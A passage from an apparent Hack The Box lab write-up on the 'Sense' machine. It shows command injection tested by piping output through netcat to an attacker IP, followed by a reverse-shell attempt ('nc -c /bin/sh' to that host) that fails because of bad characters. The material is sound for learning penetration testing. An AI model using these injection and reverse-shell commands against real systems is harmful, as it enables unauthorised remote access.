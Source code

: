 ### Try it with a test command to see if it works correctly.
Let's try a simple ```echo "test"``` piped with netcat to send it to our attacker's machine.

Full command: ```echo+"test"|nc+10.10.14.6+443```

Piping it with nectat ```|nc+10.10.14.6+443``` causes the output of the previous command, in this case the ```echo+"test"``` to be sent to the ip indicated by the specified port. The reason why I write the + character instead of a space is to avoid problems and that it interprets it correctly, basically url encode the space.

![](/assets/images/htb-writeup-sense/test-cmd-injection.png)

Listen on port 443 and wait to receive the output.
```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 62260
test
```

It works! Now let's see if we can get into a reverse shell.

Looking for a reverse shell by nc in this repo, I recommend it. [Reverse Shell Cheat Sheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)

I'll try with nc -c /bin/sh 10.10.14.6 443

![](/assets/images/htb-writeup-sense/nc-bash.png)

```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
```
It doesn't work, it must be because there are badchars.
The badchars are invalid or "bad" characters which the program to exploit does not accept them, therefore when the attacker generates his shellcode it is useless, since these characters were not identified and makes the program break.

### Looking for ways to bypasse.

